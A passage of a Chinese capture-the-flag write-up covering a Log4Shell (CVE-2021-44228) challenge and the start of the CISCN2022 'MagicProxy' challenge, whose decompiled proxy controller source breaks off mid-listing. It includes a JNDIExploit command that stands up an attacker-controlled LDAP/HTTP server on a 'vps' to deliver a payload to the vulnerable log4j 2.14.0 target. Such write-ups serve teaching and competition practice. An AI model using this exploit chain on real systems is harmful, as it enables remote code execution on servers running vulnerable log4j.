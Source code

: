 ![image-20220614170736113.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-e41306c242e569b9f6d5cd12617b94b8c1e0fbbd.png)

![image-20220614170753537.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-b8bcb6c80577be5b60f9d76a0a387f1b41335d12.png)

读取username和password文件

![image-20220614170843483.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-ba68cd9647bd39b843bd1ce5c5fe08476035a209.png)

查看`LogForgeController.class`源码发现调用了`logger.info`，并且查看`pom.xml`可知`log4j-core`的版本为`2.14.0`存在漏洞

最后就是利用`CVE-2021-44228`

```php
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i vps -p 8080 -l 8089
```

![image-20220614171735562.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-105c73bc8ab3a7b545e4f8c6866d57bf6c834e01.png)

CISCN2022\_西北分区赛 - MagicProxy
=============================

主要的类就两个`ProxyController`和`AdminController`

`ProxyController`代码如下

```java
package BOOT-INF.classes.com.example.magicproxy.controller;

import com.example.magicproxy.utils.Utils;
import java.io.IOException;
import java.net.HttpURLConnection;
import java.net.URL;
import java.net.URLConnection;
import java.net.UnknownHostException;
import javax.servlet.ServletException;
import javax.servlet.ServletOutputStream;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;

@Controller
public class ProxyController {
  private static final int TIMEOUT = 29000;

  @GetMapping({"/proxy"})
  public void doProxy(@RequestParam String url, HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String urlParam = url;
    if (Utils.sanitizeUrl(urlParam)) {
      String ref = request.getHeader("referer");
      String ua = request.getHeader("User-Agent");
      String auth = request.getHeader("Authorization");
      try (ServletOutputStream null = response.getOutputStream()) {
        request.setCharacterEncoding("UTF-8");
        response.setCharacterEncoding("UTF-8");
        URL urlObject = new URL(urlParam);
        URLConnection connection = urlObject.openConnection();
        connection.setConnectTimeout(29000);
        connection.setReadTimeout(29000);
        response.setHeader("Cache-Control", "private, max-age=86400");
        if (auth != null)
          connection.setRequestProperty("Authorization", auth); 
        if (connection instanceof HttpURLConnection) {
          ((HttpURLConnection)connection)
            .setInstanceFollowRedirects(false);
```